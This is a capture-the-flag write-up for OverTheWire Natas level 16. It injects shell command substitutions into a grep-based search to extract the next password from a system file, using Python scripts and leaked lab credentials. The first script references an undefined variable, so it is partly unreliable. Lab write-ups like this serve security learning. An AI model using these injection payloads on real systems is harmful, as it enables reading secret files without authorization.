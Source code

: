 # Level 15 → Level 16

## Details
Username: `natas16`<br />
Password: `TRD7iZrd5gATjj9PkPEuaOlfEjHqj32V`<br />
URL:      http://natas16.natas.labs.overthewire.org

## Solution
This was one of the challenges that took me the longest. I will spare you all the attempts and only explain the solution.

<img src="./0.png"></img>

<img src="./1.png"></img>

Since I couldn't "break" the quotes, I started running bash code inside them. The main idea behind it is to deduce each time one character in the password according to the output of grep on dictionary.txt. (Similar to the blind sql injection of the previous challenge).

The following code, `$(cut -c 1-1 /etc/natas_webpass/natas17)` extracts the first character in the password. Then the php code will append this character to grep on the dictionay.txt file. Therefore, out of all the words that will appear in the output, the character that will appear in all of them is actually the character that was extracted from the password.

For example: 
<img src="./2.png"></img>

<img src="./3.png"></img>

So, the first char for password of **natas17** is 'x' or 'X'. It is not possible to tell from this output whether it is an uppercase or lowercase letter, because of `grep -i`.

Let's see an example of a password we already know, of the current stage. The first letter in it is 'T'. We will insert the string `$(cut -c 1-1 /etc/natas_webpass/natas16)` in the input and get the following output:

<img src="./4.png"></img>

And so in the meantime we can recognize letters of the password, without knowing if they are uppercase or lowercase. But what about digits? Let's try to see what happens when we exstract a character that is a digit. The fourth character in the password that we already know is the digit '7'. Let's see what the output is when we try to extract this character with the input `$(cut -c 4-4 /etc/natas_webpass/natas16)`:

<img src="./5.png"></img>

Nothing. This means that currently, only letters can be detected in case insensitive form. And it is still not possible to discover digits. We will now build a Python code that extracts all the characters that are letters, and print them in lower case (for convenience).

```python
from requests import post
from requests.utils import quote

PASSWORD_FILENAME = '/etc/natas_webpass/natas17'
PASSWORD_LENGTH = 32
CASE_INSENSITIVE_LETTER_EXTRACTION = "$(cut -c {}-{} {})"

# details for the POST HTTP request.
URL = "http://natas16.natas.labs.overthewire.org/index.php"
HEADERS ={}
HEADERS["Authorization"] = "Basic bmF0YXMxNjpUUkQ3aVpyZDVnQVRqajlQa1BFdWFPbGZFakhxajMyVg=="
HEADERS["Content-Type"] = "application/x-www-form-urlencoded"
DATA = "needle="

def get_dictionary_words(html):
    """
    Returns a list of all the words that appeared as output
    from dictionary.txt in the html page
    """
    html = html.lower()
    return html[html.find('<pre>')+6:html.find('</pre>')].split('\n')[:-1]

def get_common_letter(words_list):
    """
    Gets a list of words and returns the letter that appeared in all the words.
    """

    # If the list is empty, it is a sign that a digit has been extracted.
    if not words_list: return '_'
    
    # Takes the shortest word, because then the test will be faster.
    words_list.sort(key=len)
    shortes_word = words_list[0]
    
    # If the short word contains one letter, then it is common to all.
    if(len(shortes_word) == 1): return shortes_word
    
    # Looking for the letter that appears in all the words:
    for letter in shortes_word:
        is_common = True  
        
        for word in words_list:
            if letter not in word:
                is_common = False
                break

        if is_common: return letter

password = ""
for i in range(1, PASSWORD_LENGTH+1):
    res = post(url=URL, headers=HEADERS, data=DATA+quote(CHAR_EXTRACTION.format(i,i,PASSWORD_FILENAME)))
    password += get_common_letter(get_dictionary_words(res.text))
    print("password: " + password.ljust(32, "_"))
```

# exstract spesific letter from password
`$(cut -c 1-1 /etc/natas_webpass/natas17)`


# convert numbers to chars
`$(printf \\$(printf %03o $((97+$(cut -c 8-8 /etc/natas_webpass/natas17)))))`

# convert char to 'a' just if it was lower case

`$(python3 -c $(echo print\(chr\(97+\(100-ord\($(echo $(python3 -c print\(chr\(34\)\)))$(cut -c 3-3
 b.sh)$(echo $(python3 -c print\(chr\(34\)\)))\)\)\)\)))`

 `$(python3 -c $(echo print\(chr\(97+\(105-ord\($(echo $(python3 -c print\(chr\(34\)\)))$(cut -c 5-5
 /etc/natas_webpass/natas16)$(echo $(python3 -c print\(chr\(34\)\)))\)\)\)\)))`

https://stackoverflow.com/questions/12855610/shell-script-is-there-any-way-converting-number-to-char


and then extract just one letter!
and do it like "blind sql injection"


```python
from requests import post
from requests.utils import quote

PASSWORD_FILENAME = '/etc/natas_webpass/natas17'
PASSWORD_LENGTH = 32
CHAR_EXTRACTION = "$(cut -c {}-{} {})"
DIGIT_EXTRACTION = "$(printf \\\$(printf %03o $((97+$(cut -c {}-{} {})))))"
DETECT_LOWER_CASE = "$(python3 -c $(echo print\(chr\(97+\({}-ord\($(echo $(python3 -c print\(chr\(34\)\)))$(cut -c {}-{} {})$(echo $(python3 -c print\(chr\(34\)\)))\)\)\)\)))"


URL = "http://natas16.natas.labs.overthewire.org/index.php"
HEADERS ={}
HEADERS["Authorization"] =\
"Basic bmF0YXMxNjpUUkQ3aVpyZDVnQVRqajlQa1BFdWFPbGZFakhxajMyVg=="
HEADERS["Content-Type"] = "application/x-www-form-urlencoded"
DATA = "needle="

def get_dictionary_words(html):
    # This is not what prevents distinction between upper and lowercase letters.
    # but done for convenience.
    html = html.lower()
    return html[html.find('<pre>')+6:html.find('</pre>')].split('\n')
    
def get_common_letter(words_list):
    # remove the last 'word' that equals always to ''
    #words_list = words_list[:-1]
    
    # it's no words so digit here.
    if not words_list: return '_'
    
    # take the shortest word in the list
    words_list.sort(key=len)
    shortes_word = words_list[0]
    
    # if there is word with one character, so this is the common letter.
    if(len(shortes_word) == 1): return shortes_word
    
    # find the letter that apear in every word.
    for letter in shortes_word:
        is_common = True
        
        for word in words_list:
            if letter not in word:
                is_common = False
                break
        
        if is_common: return letter

password = ""

print("FIND CASE-INSENSITIVE LETTERS:") 
for i in range(1, PASSWORD_LENGTH+1):
    response = post(url=URL, headers=HEADERS, data=DATA+quote(CHAR_EXTRACTION.format(i,i,PASSWORD_FILENAME)))
    password += get_common_letter(get_dictionary_words(response.text))
    print("password: " + password.ljust(32, "_"))
    
if '_' in password:
    print("\nFIND DIGITS:") 
    while('_' in password):
        i = password.find('_') + 1
        response = post(url=URL, headers=HEADERS, data=DATA+quote(DIGIT_EXTRACTION.format(i,i,PASSWORD_FILENAME)))
        letter = get_common_letter(get_dictionary_words(response.text))
        digit = str(ord(letter) - ord('a'))
        password = password.replace('_', digit, 1)
        print("password: " + password.ljust(32, "_"))
        
print("\nDETECT UPPER CASE LETTER:")
for i in range(PASSWORD_LENGTH):
    if password[i].isalnum():
        response = post(url=URL, headers=HEADERS, data=DATA+quote(DETECT_LOWER_CASE.format(ord(password[i]),i+1,i+1,PASSWORD_FILENAME)))
        letter = get_common_letter(get_dictionary_words(response.text))
        if letter != 'a':
            password = password[:i] + password[i].upper() + password[i+1:]
            print("password: " + password.ljust(32, "_"))
```

## Password for the next level:
```
XkEuChE0SbnKBvH1RU7ksIb9uuLmI7sd
```